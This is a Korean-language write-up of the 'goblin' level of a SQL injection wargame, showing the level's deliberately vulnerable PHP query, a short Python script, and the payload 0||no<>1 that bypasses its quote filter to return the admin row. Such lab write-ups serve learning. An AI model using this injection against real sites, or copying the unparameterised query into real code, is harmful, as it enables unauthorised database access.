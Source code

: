 ## GOBLIN Write-up

### 문제
``` php
<?php  
include "./config.php";  
login_chk();  
dbconnect();  
if(preg_match('/prob|_|\.|\(\)/i', $_GET[no])) exit("No Hack ~_~");  
if(preg_match('/\'|\"|\`/i', $_GET[no])) exit("No Quotes ~_~");  
$query = "select id from prob_goblin where id='guest' and no={$_GET[no]}";  
echo "<hr>query : <strong>{$query}</strong><hr><br>";  
$result = @mysql_fetch_array(mysql_query($query));  
if($result['id']) echo "<h2>Hello {$result[id]}</h2>";  
if($result['id'] == 'admin') solve("goblin");  
highlight_file(__FILE__);  
?>
```
### Exploit 코드
``` python
import requests

url = 'http://los.rubiya.kr/goblin_e5afb87a6716708e3af46a849517afdc.php'
cookies = {'PHPSESSID' : 'My PHPSESSID'}
params = {}
params['no'] = "0||no<>1"

res = requests.get(url, cookies = cookies, params = params)

if "Clear" in res.text :
    print("[♪] GOBLIN Clear!")
```
이번 문제는 get으로 no를 받는다.  
no=1을 주면 **Hello guest** 가 뜬다.
이를 통해 guest가 1이라는 것을 알 수 있었고, no가 1이 아니면 풀릴 듯 했다.

no에 **0||no<>1**을 넣어주면 쿼리는 다음과 같이 된다.
``` php
select id from prob_goblin where id='guest' and no=0||no<>1
```
mysql에서 **<>** 기호는 같지 않다는 의미이기 때문에 **no!=1** 과 같은 의미가 된다.  
**$result['id']** 에 guest가 아닌 값, admin이 있기 때문에 문제가 해결된다.